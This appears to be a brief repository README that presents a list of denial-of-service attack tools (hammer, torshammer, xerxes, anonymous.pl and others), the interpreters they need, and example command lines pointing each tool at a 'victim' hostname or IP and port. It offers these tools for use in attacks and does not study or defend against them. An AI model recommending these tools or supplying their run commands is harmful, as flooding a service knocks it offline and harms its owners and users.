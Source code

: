 #simple step DDos Building By Me

#copyright By ~mr a~

1 tool ddos hammer

2 tool ddos torshammer

3 tool ddos xerxes

5 tool ddos anonymous.pl

6 tool ddos Mr A

#script install to running ddos

1 python

2 python2 

3 perl

4 clang

#example run

python hammer.py -s ip -r packet -p port

python torshammer.py -t ip -p port -r threads

python2 ddos.py hostname victim

python2 ddos2.py hostname victim

./xerxes hostname victim

perl Anonymous.pl
